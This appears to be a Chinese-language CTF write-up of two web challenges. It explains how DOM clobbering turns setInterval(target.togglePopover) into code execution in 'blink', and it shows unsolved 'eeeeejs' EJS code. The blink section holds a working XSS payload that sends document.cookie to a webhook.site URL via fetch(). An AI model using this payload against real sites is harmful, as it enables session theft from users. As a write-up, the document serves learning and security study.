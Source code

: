 ```py
```

### blink (14 solves)

這題的核心程式碼如下：

``` js
const createBlink = async (html) => {
  const sandbox = wrap(
    $("#viewer").appendChild(document.createElement("iframe"))
  );

  // I believe it is impossible to escape this iframe sandbox...
  sandbox.sandbox = sandboxAttribute;

  sandbox.width = "100%";
  sandbox.srcdoc = html;
  await new Promise((resolve) => (sandbox.onload = resolve));

  const target = wrap(sandbox.contentDocument.body);
  target.popover = "manual";
  const id = setInterval(target.togglePopover, 400);

  return () => {
    clearInterval(id);
    sandbox.remove();
  };
};
```

iframe 的地方沒辦法 bypass sandbox，但重點是 `setInterval(target.togglePopover, 400)` 這一行程式碼。

如果 `target.togglePopover` 是字串的話，就可以拿來當成 eval 用。

而 `target` 是 `sandbox.contentDocument.body`，可以用 `name` 去 DOM clobber `document.body`，接著再去 clobber `togglePopover` 就搞定了。


``` html
<iframe name=body srcdoc="<a id=togglePopover href=a:fetch(`http://webhook.site/2ba35f39-faf4-4ef2-86dd-d85af29e4512?q=${document.cookie}`)></a>"></iframe>
```

### eeeeejs (12 solves)

遺憾的一題，試了很久但沒有解開 QQ

這題的核心程式碼如下：

``` js
const ejs = require("ejs");

const { filename, ...query } = JSON.parse(process.argv[2].trim());
ejs.renderFile(filename, query).then(console.log);
```
